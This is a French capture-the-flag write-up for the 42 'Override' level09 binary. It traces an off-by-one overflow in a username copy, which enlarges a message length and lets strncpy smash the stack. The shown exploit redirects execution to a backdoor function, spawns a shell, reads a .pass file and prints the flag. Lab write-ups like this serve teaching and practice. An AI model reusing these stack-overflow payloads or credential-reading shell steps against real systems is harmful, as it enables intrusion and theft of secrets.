 # Override

Override 42 security level09

On nous demande un username et un message a envoyé.

En regardant l'assembleur, on remarque une fonciton non appelée (secret_backdoor) qui appelle un shellcode.
On comprend donc que notre objectif va etre de l'appeller.
On observe que le programme rempli une structure avec 2 fonctions:
set_msg
set_username

Ce sont donc nos point d'entrée dans le programme.
La fonction set_msg semble inattaquable, elle utilise strncpy avec la bonne taille, l'overflow semble impossible.
En revanche la fonction set_username semble être exploitable.
Effectivement elle utilise une boucle afin de remplir la structure.

```c
void set_username(msg_t *msg)
{
  char    buffer[128];
  int  i;
  
  bzero(buffer, 1128);
  puts(">: Enter your username");
  printf(">>: ");
  fgets(buffer, 128, stdin);
  i = 0;
  while (i <= 40 && buffer[i] != 0)
  {
    message->username[i] = buffer[i];
    i++;
  }

  printf(">: Welcome, %s", message->username);
}

```
Hors on se souvient:
```c
  char    username[40];
```

Donc notre boucle tourne 41 fois alors que la taille de l'username n'est que de 40.
On a donc localise l'overflow.
On va utiliser l'overflow de 1 pour modifier la variable suivante : len_message.
Qui controle elle le strncpy sur la fonction set_msg
Si on remplace le nombre par un nombre plus gros le strncpy va overflow et donc nous permettra d'avoir de l'espace pour faire notre exploit.
On va utiliser le caractere le plus grand que l'on puisse : \xff -> 255

```
gdb ./level09
r <<<$(python -c 'print "A" * 40 + "\xff" + "\n" + "B" * 255')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

On remarque bien une segfalt.

```
gdb ./level09
shell python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A"' > /tmp/test1
r < /tmp/test1
Starting program: /home/users/level09/level09 < /tmp/test1
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x4138674137674136 in ?? ()
(gdb) info registers
rax            0xd	13
rbx            0x0	0
rcx            0x7ffff7b01f90	140737348902800
rdx            0x7ffff7dd5a90	140737351867024
rsi            0x7ffff7ff7000	140737354100736
rdi            0xffffffff	4294967295
rbp            0x6741356741346741	0x6741356741346741
rsp            0x7fffffffe590	0x7fffffffe590
r8             0x7ffff7ff7004	140737354100740
r9             0xc	12
r10            0x7fffffffde30	140737488346672
r11            0x246	582
r12            0x555555554790	93824992233360
r13            0x7fffffffe670	140737488348784
r14            0x0	0
r15            0x0	0
rip            0x4138674137674136	0x4138674137674136
eflags         0x246	[ PF ZF IF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0

x/s $rsp
0x7fffffffe590:	 "g9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4"
(gdb) shell echo -n "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8A" | wc -c
208
```
Enfin 208 - 8 = 200 donc on a une EIP à 200 !
Trouvons l'adresse de la secret backdoor:

```
gdb ./level09
(gdb) b * main
Breakpoint 1 at 0xaa8
(gdb) r
Starting program: /home/users/level09/level09

Breakpoint 1, 0x0000555555554aa8 in main ()
(gdb) x secret_backdoor
0x55555555488c <secret_backdoor>:	0xe5894855
```

On va donc construire notre exploit :

```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh\n"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat .pass
cat: .pass: Permission denied
../.pass
/bin/sh: 3: ../.pass: Permission denied
cat ../end/.pass
cat: ../end/.pass: Permission denied
cd ..
cat .pass
cat: .pass: No such file or directory
cd end
cat .pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
